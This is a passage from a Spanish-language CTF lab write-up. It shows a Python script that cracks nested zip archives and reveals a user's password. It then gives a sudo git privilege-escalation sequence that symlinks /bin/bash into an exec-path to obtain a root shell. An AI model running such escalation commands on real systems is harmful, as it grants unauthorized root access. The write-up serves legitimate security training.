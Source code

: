```python
    with open('./password.txt', 'r') as archivo:
        for linea in archivo:
            for patron, funcion in patrones_a_funciones.items():
                if patron in linea:
                    funcion()  
                    encontrado = True

    if not encontrado:
        os.system("clear")
        print("Último archivo descomprimido. Saliendo...")
        os.system("rm archivo.zip")
        os.system("cat password.txt")
        exit()
```

Para este script se necesita tener instaladas las siguientes herramientas:

• Node

• Php

• Python

• Ruby

• 7z

Una vez ejecutado veremos lo siguiente:

```css
Último archivo descomprimido. Saliendo...
La última contraseña es: {[XY2P_oODN)
```

Al parecer la contraseña del usuario lenam es `{[XY2P_oODN)`. Ahora si ejecutamos `sudo -l` y ponemos la contraseña, veremos que podemos ejecutar git como root. Por lo que luego de buscar una escalada, encontré esta que en mi caso funcionó:

```css
TF=$(mktemp -d)
ln -s /bin/bash "$TF/git-x"
sudo git "--exec-path=$TF" x
```

Una vez hecho eso, **ya seremos root** y podremos leer las flags:

![root](./img/root.png)

Gracias por leer....